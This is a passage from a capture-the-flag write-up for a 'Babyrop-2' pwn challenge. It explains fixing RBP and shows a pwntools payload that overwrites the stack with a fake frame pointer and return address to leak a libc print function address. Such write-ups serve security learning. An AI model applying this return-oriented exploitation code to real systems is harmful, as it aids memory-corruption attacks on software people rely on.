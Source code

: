 ![Pasted image 20250716080308](/images/SmileyCTF/SmileyCTF-Babyrop-2/Pasted_image_20250716080308.png)



To do this, update the payload with print_addr+0x20. This ensures that the RBP register is correctly set.

The updated payload:

```python
print_addr = 0x404010
print_call = 0x401211

payload = flat({
    0: [
        print_addr
        ],
    32:[
        print_addr+0x20,
        print_call
      ]
    })

io.sendline(payload)
```

The image below shows the successful leak of the print function's address.

